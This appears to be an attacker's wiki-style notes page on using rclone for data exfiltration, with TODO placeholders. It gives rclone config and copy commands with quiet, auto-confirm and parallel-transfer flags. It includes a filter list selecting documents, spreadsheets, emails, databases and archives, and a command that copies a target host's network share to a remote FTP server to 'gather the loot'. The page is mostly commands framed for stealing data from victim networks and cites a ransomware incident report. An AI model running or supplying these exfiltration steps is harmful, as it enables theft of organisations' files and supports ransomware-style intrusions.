 # RClone

## 01 - Create Config

TODO: Fill more information

### 1.1 - Syntax

The syntax usage.

```
> rclone config create <remote_name> <remote_type> <key_1> <value_1> <key_2> <value_2> <key_n> <value_n>
```

You can specify the path to save configuration file that has credentials that is ready to upload the files.

```
> rclone config --config my_remote_config.conf
```

## 02 - Upload Files

### 2.1 - Usage

#### 2.1.1 - List files

```
> rclone ls <remote_name>:

> rclone sync -P <remote_name>:file.txt .
```

#### 2.1.2 - Copy files

```
> rclone copy --max-age <n>y [<drive_letter>:]/path/to/local/directory <remote_name>:/path/to/remote/directory -P -q --ignore-existing --auto-confirm --multi-thread-streams 12 --transfers 12 --config my_remote_config.conf
```

#### 2.1.3 - Filter

```
--max-age

--max-size

--filter="+ *.pdf" --filter="- *"
```

```
 --filter-from filter_extensions.txt
+ *.rar
+ *.doc
+ *.docx
+ *.xlsx
+ *.xlsb
+ *.mp4
+ *.ppt
+ *.csv
+ *.7z
+ *.eml
+ *.msg
+ *.db
+ *.rtf
+ *.xls
+ *.png
+ *.jpeg
+ *.jpg
- *
```

#### 2.1.4 - Log Files

```
-P --log-level INFO --log-file transfer_log.txt
```

### 2.2 - Use Cases

TODO: Provide more use cases

- FTP Server

```
> rclone.exe copy "\\<target_IP>\<share_name>" ftp_server:<path/to/directory> -q --ignore-existing --auto-confirm --multi-thread-streams 3 --transfers 3
```

TODO: Use rclone filter features to find the most critical assets to gather the loot

- Filter file timestamp (not less than 2 years for example)
- Download Megabytes of size instead of Gigabytes by splitting them into volumes of data when using archive programs such as, `7z` or `WinRAR.exe`.

---
## References

### Backlinks

- [[Sensitive Filenames|Exfiltration: Sensitive Files]]

### TechWiki

- [TechWiki: RClone Filtering](https://techwiki.co.uk/RClone_-_Filtering)

### The DFIR Report

- [The DFIR Report: Malicious ISO File Leads to Domain Wide Ransomware](https://thedfirreport.com/2023/04/03/malicious-iso-file-leads-to-domain-wide-ransomware/)